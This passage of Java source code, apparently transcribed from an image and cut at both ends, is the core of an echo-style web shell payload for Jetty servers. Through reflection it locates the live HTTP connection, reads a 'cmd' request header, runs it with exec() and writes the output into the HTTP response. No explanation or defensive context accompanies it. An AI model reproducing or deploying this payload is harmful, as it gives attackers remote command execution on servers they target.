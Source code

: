 ```
                if (tableValue == null){
                    continue;
                }
                Object[] tables =  (Object[])tableValue;
                for (Object table:tables) {
                    if (table == null){
                        continue;
                    }
                    Field valueField = table.getClass().getDeclaredField("value");
                    valueField.setAccessible(true);
                    Object value = valueField.get(table);
                    if (value == null){
                        continue;
                    }
                    System.out.println(value.getClass().getName());
                    if(value.getClass().getName().endsWith("AsyncHttpConnection")){
                        Method method = value.getClass().getMethod("getRequest", null);
                        value = method.invoke(value, null);
                        method = value.getClass().getMethod("getHeader", new Class[]{String.class});
                        String cmd = (String)method.invoke(value, new Object[]{"cmd"});
                        String result = "\n"+exec(cmd);
                        method = value.getClass().getMethod("getPrintWriter", new Class[]{String.class});
                        java.io.PrintWriter printWriter = (java.io.PrintWriter)method.invoke(value, new Object[]{"utf-8"});
                        printWriter.println(result);
                        printWriter.flush();
                        break thread;
                    }else if(value.getClass().getName().endsWith("HttpConnection")){
                        Method method = value.getClass().getDeclaredMethod("getHttpChannel", null);
                        Object httpChannel = method.invoke(value, null);
                        method = httpChannel.getClass().getMethod("getRequest", null);
                        value = method.invoke(httpChannel, null);
                        method = value.getClass().getMethod("getHeader", new Class[]{String.class});
                        String cmd = (String)method.invoke(value, new Object[]{"cmd"});
                        String result = "\n"+exec(cmd);
                        method = httpChannel.getClass().getMethod("getResponse", null);
                        value = method.invoke(httpChannel, null);
                        method = value.getClass().getMethod("getWriter", null);
                        java.io.PrintWriter printWriter = (java.io.PrintWriter)method.invoke(value, null);
                        printWriter.println(result);
                        printWriter.flush();
                        break thread;
                    }else if (value.getClass().getName().endsWith("Channel")){
                        Field underlyingOutputField = value.getClass().getDeclaredField("underlyingOutput");
                        underlyingOutputField.setAccessible(true);
                        Object underlyingOutput = underlyingOutputField.get(value);
                        Object httpConnection;
                        try{
                            Field _channelField = underlyingOutput.getClass().getDeclaredField("_channel");
                            _channelField.setAccessible(true);
                            httpConnection = _channelField.get(underlyingOutput);
                        }catch (Exception e){
                            Field connectionField = underlyingOutput.getClass().getDeclaredField("this$0");
                            connectionField.setAccessible(true);
                            httpConnection = connectionField.get(underlyingOutput);
                        }
```